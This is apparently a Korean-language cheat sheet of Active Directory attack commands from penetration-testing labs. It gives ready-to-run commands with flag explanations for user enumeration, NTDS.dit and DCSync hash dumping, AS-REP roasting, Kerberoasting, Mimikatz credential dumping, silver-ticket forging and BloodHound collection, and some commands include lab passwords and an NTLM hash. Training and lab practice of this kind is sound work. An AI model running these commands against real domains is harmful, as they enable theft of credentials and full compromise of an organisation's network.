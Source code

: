 # Enumeration
```bash
netexec smb [ip] -u guest -p '' --rid-brute

./kerbrute_linux_amd64 userenum --dc 192.168.133.40 -d haero /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

./enum4linux <ip>
```
---
# Impacket secretsdump
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
- `-system SYSTEM` : `C:\Windows\System32\config\SYSTEM`
- `LOCAL` : ntds.dit와 SYSTEM 파일을 로컬에서 분석
---
# LDAP
```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.160.122" "(objectclass=*)"
```
- `-x` : 기본 SASL 인증 대신 간단한 익명 또는 아이디-비밀번호 기반 인증을 사용
- `-b` :  LDAP 검색을 시작할 루트 경로를 의미. `DC=hutch,DC=offsec` → `hutch.offsec` 도메인을 의미
- `"(objectclass=*)"` : 모든 객체(Object)를 가져오라는 의미
---
# AS-REP Roasting
``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hash corp.com/pete
```

-   **-dc-ip** : 도메인 컨트롤러(DC)의 IP 주소를 지정.
-   **-request** : 실제로 AS-REP 요청을 보내 티켓을 가져옴.
-   **-outputfile** : 덤프한 해시를 저장할 파일 이름.
-   **corp.com/pete** : 대상 도메인/사용자 계정.

``` powershell
.\Rubeus.exe asreproast /nowrap
```

-   **asreproast** : AS-REP Roasting 공격 수행 모드.
-   **/nowrap** : 해시가 여러 줄로 나뉘지 않고 한 줄로 출력되도록 설정.
---
# Kerberoasting
``` powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

-   **kerberoast** : Kerberoasting 공격 수행 모드.
-   **/outfile** : 수집한 해시를 저장할 파일 지정.

``` bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

-   **-request** : SPN에 대해 실제 TGS 요청을 전송.
-   **-dc-ip** : 도메인 컨트롤러 IP.
-   **corp.com/pete** : 인증에 사용할 도메인/사용자.
---
# Silver Tickets
``` powershell
.\mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

whoami /user

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 '
/domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

klist

iwr -UseDefaultCredentials http://web04
```

-   **privilege::debug** : Mimikatz에서 SYSTEM 권한 디버그 권한 획득.
-   **sekurlsa::logonpasswords** : 현재 로그인된 세션에서 자격 증명
    덤프.
-   **whoami /user** : 현재 사용자 SID 확인.
-   **kerberos::golden** : 골든/실버 티켓 생성 명령.
    -   **/sid** : 도메인 SID 지정.
    -   **/domain** : 도메인 이름.
    -   **/ptt** : 생성한 티켓을 즉시 메모리에 삽입(Pass-the-Ticket).
    -   **/target** : 공격 대상 서비스 호스트.
    -   **/service** : 서비스 이름 (예: http, cifs 등).
    -   **/rc4** : 서비스 계정의 NTLM 해시.
    -   **/user** : 티켓에 삽입할 사용자 이름.
-   **klist** : 현재 메모리에 로드된 티켓 확인.
-   **iwr -UseDefaultCredentials** : 티켓을 이용해 웹 요청.
---
# Domain Controller Synchronization
``` powershell
.\mimikatz.exe

lsadump::dcsync /user:corp\Administrator
```

-   **lsadump::dcsync** : AD 복제 프로토콜을 악용하여 사용자 해시 요청.
-   **/user** : 대상 사용자 계정 지정.

``` bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.50.70
```

-   **-just-dc-user** : 특정 사용자만 복제 요청.
-   **corp.com/jeffadmin** : 인증에 사용할 도메인/계정.
-   **패스워드** : 계정 암호.
-   **@192.168.50.70** : 도메인 컨트롤러 IP.

---
# CrackMapExec LDAP + BloodHound
```bash
cme ldap hokkaido-aerospace.com -u 'hrapp-service' -p 'Untimed$Runny' --bloodhound -c all -ns 192.168.94.135
```

- Linux/Kali 등에서 바로 실행 가능. LDAP 기반으로 대부분의 정보를 수집 가능하므로 SharpHound을 직접 업로드하지 않아도 됨.

1. **`cme ldap hokkaido-aerospace.com`**
    - `ldap`: LDAP 프로토콜을 사용하여 도메인 컨트롤러와 상호작용.
    - `hokkaido-aerospace.com`: 대상 도메인 이름.

2. **`--bloodhound`**
    - CME의 BloodHound 모듈 활성화.

4. **`-c all`**
    - BloodHound 모듈에서 실행할 **collector 옵션**을 지정.
    - `all` → 모든 수집기를 실행 (유저, 그룹, 컴퓨터, ACL, 세션 등).

4. **`-ns 192.168.94.135`**
    - `-ns`: 사용할 DNS 서버 지정 옵션.
    - `192.168.94.135`: DNS 서버의 IP 주소, 보통 도메인 컨트롤러
---
# Blood Hound Python
```bash
bloodhound-python -u "hrapp-service" -p 'Untimed$Runny' -d hokkaido-aerospace.com -c all --zip -ns 192.168.208.40
```
---
